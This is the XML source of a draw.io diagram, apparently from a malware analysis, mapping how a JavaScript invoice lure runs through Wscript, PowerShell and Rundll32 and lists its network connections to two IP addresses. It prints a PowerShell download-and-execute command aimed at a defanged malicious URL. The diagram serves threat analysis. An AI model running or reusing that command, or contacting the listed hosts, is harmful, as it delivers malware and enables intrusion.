

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="1117" dy="893" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="PRbCpMccaBNBGjNH81Ob-2" value="&lt;div align=&quot;left&quot;&gt;&quot;C:\tmp\230318-gzwyxade5t_pw_infected\Unpaid_March_17\Unpaid_03_17_Copy#82.js&quot;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#f5f5f5;strokeColor=#666666;fontColor=#333333;align=left;" vertex="1" parent="1">
      <mxGeometry x="10" y="19" width="300" height="60" as="geometry" />
    </mxCell>
    <mxCell id="PRbCpMccaBNBGjNH81Ob-11" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="PRbCpMccaBNBGjNH81Ob-1" target="PRbCpMccaBNBGjNH81Ob-4">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="PRbCpMccaBNBGjNH81Ob-1" value="&lt;font style=&quot;font-size: 13px;&quot;&gt;&lt;font style=&quot;font-size: 14px;&quot;&gt;&lt;font style=&quot;font-size: 15px;&quot;&gt;&lt;font style=&quot;font-size: 16px;&quot;&gt;&lt;font style=&quot;font-size: 17px;&quot;&gt;&lt;font style=&quot;font-size: 18px;&quot;&gt;&lt;font style=&quot;font-size: 19px;&quot;&gt;&lt;font style=&quot;font-size: 20px;&quot;&gt;&lt;font style=&quot;font-size: 21px;&quot;&gt;&lt;font style=&quot;font-size: 22px;&quot;&gt;&lt;font style=&quot;font-size: 23px;&quot;&gt;&lt;font style=&quot;font-size: 24px;&quot;&gt;&lt;font style=&quot;font-size: 25px;&quot;&gt;Wscript.exe&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#dae8fc;strokeColor=#6c8ebf;" vertex="1" parent="1">
      <mxGeometry x="10" y="70" width="300" height="60" as="geometry" />
    </mxCell>
    <mxCell id="PRbCpMccaBNBGjNH81Ob-3" value="&lt;div align=&quot;left&quot;&gt;IEX (New-Object Net.Webclient).downloadstring(&quot;http://conalom[.]top/gatef1.php&quot;)&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#f5f5f5;strokeColor=#666666;fontColor=#333333;align=left;" vertex="1" parent="1">
      <mxGeometry x="190" y="130" width="300" height="60" as="geometry" />
    </mxCell>
    <mxCell id="PRbCpMccaBNBGjNH81Ob-12" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="PRbCpMccaBNBGjNH81Ob-4" target="PRbCpMccaBNBGjNH81Ob-7">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="PRbCpMccaBNBGjNH81Ob-13" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="PRbCpMccaBNBGjNH81Ob-4" target="PRbCpMccaBNBGjNH81Ob-6">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="PRbCpMccaBNBGjNH81Ob-14" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="PRbCpMccaBNBGjNH81Ob-4" target="PRbCpMccaBNBGjNH81Ob-9">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="PRbCpMccaBNBGjNH81Ob-4" value="&lt;font style=&quot;font-size: 25px;&quot;&gt;&lt;font style=&quot;font-size: 25px;&quot;&gt;&lt;font style=&quot;font-size: 25px;&quot;&gt;&lt;font style=&quot;font-size: 25px;&quot;&gt;&lt;font style=&quot;font-size: 25px;&quot;&gt;PowerShell.exe&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;&lt;/font&gt;" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#dae8fc;strokeColor=#6c8ebf;" vertex="1" parent="1">
      <mxGeometry x="190" y="181" width="300" height="60" as="geometry" />
    </mxCell>
    <mxCell id="PRbCpMccaBNBGjNH81Ob-5" value="&lt;div align=&quot;left&quot;&gt;&quot;C:\Windows\System32\rundll32.exe&quot; C:\Users\VAGRAN~1.WIN\AppData\Local\Temp\BPLTjzsS.dat,init&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#f5f5f5;strokeColor=#666666;fontColor=#333333;align=left;" vertex="1" parent="1">
      <mxGeometry x="360" y="301" width="300" height="60" as="geometry" />
    </mxCell>
    <mxCell id="PRbCpMccaBNBGjNH81Ob-15" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="PRbCpMccaBNBGjNH81Ob-6" target="PRbCpMccaBNBGjNH81Ob-8">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="PRbCpMccaBNBGjNH81Ob-6" value="&lt;font style=&quot;font-size: 25px;&quot;&gt;&lt;font style=&quot;font-size: 25px;&quot;&gt;Rundll32.exe&lt;/font&gt;&lt;/font&gt;" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#dae8fc;strokeColor=#6c8ebf;" vertex="1" parent="1">
      <mxGeometry x="360" y="352" width="300" height="60" as="geometry" />
    </mxCell>
    <mxCell id="PRbCpMccaBNBGjNH81Ob-7" value="Network connection to &lt;b&gt;176.124.193.25&lt;/b&gt;" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#d5e8d4;strokeColor=#82b366;" vertex="1" parent="1">
      <mxGeometry x="360" y="241" width="300" height="60" as="geometry" />
    </mxCell>
    <mxCell id="PRbCpMccaBNBGjNH81Ob-8" value="Network connection to &lt;strong&gt;80.78.24.30&lt;/strong&gt;" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#d5e8d4;strokeColor=#82b366;" vertex="1" parent="1">
      <mxGeometry x="520" y="412" width="300" height="60" as="geometry" />
    </mxCell>
    <mxCell id="PRbCpMccaBNBGjNH81Ob-9" value="Network connection to &lt;b&gt;176.124.193.25&lt;/b&gt;" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#d5e8d4;strokeColor=#82b366;" vertex="1" parent="1">
      <mxGeometry x="360" y="472" width="300" height="60" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>